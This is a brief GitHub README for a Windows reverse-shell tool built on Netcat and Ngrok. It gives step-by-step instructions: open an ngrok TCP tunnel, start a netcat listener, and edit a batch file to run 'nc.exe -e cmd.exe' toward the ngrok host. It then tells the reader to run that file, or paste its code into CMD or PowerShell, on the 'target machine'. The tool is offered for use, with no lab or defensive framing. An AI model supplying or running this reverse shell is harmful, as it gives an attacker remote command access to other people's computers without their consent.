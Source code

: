 # Simple-Reverse-Shell-Windows
Simple reverse shell Windows CMD with Netcat and Ngrok

# How To Use
  For example:
  1. run "ngrok tcp 6969"
  2. run netcat "nc -lvnp 6969"
  3. edit RShell.bat and put your ngrok ip and port, should be like this "....\\nc.exe -e cmd.exe 0.tcp.ngrok.io 27384"
  4. Then run RShell.bat on your target machine. 
     OR YOU CAN JUST COPY THE CODE AND PASTE ON CMD OR POWERSHELL IN YOUR TARGET MACHINE. :)
